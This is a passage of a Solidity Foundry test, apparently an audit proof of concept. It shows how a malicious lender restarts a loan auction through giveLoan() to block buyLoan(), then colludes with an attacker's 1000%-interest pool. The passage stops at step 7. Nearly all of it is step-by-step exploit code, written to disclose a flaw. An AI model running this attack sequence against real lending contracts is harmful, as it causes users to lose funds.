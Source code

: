 ```solidity
        // 2. Lender1 starts an auction
        //
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;
        vm.startPrank(lender1);
        lender.startAuction(loanIds);
        (,,,,,,,,uint256 auctionStartTime,) = lender.loans(0);
        assertEq(auctionStartTime, block.timestamp); // auction has started
        //
        // 3. There is an interested pool in buying the loan but Lender1 frontrun an restart the
        // auction via giveLoan(), so the loan is not possible to buy().
        //
        bytes32[] memory poolIds = new bytes32[](1);
        poolIds[0] = poolIdLender1;
        lender.giveLoan(loanIds, poolIds); // malicious lender restart the auction using the giveLoan() function
        //
        // 4. Auction is restarted. Debt is the same 100 tokens, collateral balance is the same 100 tokens
        //    and Pool balance is the same 900 tokens
        //
        (,,,,,,,,auctionStartTime,) = lender.loans(0);
        assertEq(auctionStartTime, type(uint256).max); // auction is restarted
        (,,,,poolBalance,,,,) = lender.pools(poolIdLender1);
        (,,,,,collaterlLoan,,,,) = lender.loans(0);
        assertEq(lender.getLoanDebt(0), 100 * 10**18);
        assertEq(collaterlLoan, 100 * 10**18);
        assertEq(poolBalance, 900 * 10**18); // 1000 pool balance - 100 loan debt
        //
        // 5. It is not possible to buy the loan since the auction was restarted in the step 3
        //
        vm.expectRevert(AuctionNotStarted.selector);
        lender.buyLoan(0, keccak256(abi.encode("whateverpoolIdDoesNotMatterBecuaseWillBeRevertedBeforeAnythinElse")));
        vm.stopPrank();
        //
        // 6. Lender1 creates a maliciouspool in coalition with a malicious actor.
        // The malicious pool will have the maximum interest 1000%. This new pool can be a pool from the same lender using
        // another private key.
        //
        vm.startPrank(attacker);
        loanToken.approve(address(lender), 1000000*10**18);
        collateralToken.approve(address(lender), 1000000*10**18);
        Pool memory attackerP = Pool({
            lender: attacker,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100*10**18,
            poolBalance: 1000*10**18,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 100000, // maximum interest
            outstandingLoans: 0
        });
        bytes32 poolIdAttacker = lender.setPool(attackerP);
        vm.stopPrank();
        //
        // 7. Lender1 starts the auction again and warp to the end of the auction.
        //
        vm.startPrank(lender1);
        lender.startAuction(loanIds);
        // warp
```